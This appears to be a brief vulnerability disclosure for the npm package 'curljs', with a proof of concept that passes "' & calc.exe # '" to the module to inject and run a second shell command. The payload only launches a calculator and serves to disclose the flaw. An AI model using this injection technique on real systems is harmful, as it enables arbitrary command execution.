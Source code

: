 ## :writing_hand: Description

`curljs` is a package that wraps the functionality of curl into an easy to use node module

# Proof of Concept

#### Installation
```bash
npm i curljs
```

#### Run poc.js
```
var a=require("curljs");
a("' & calc.exe # '")
```
```
node poc.js
```
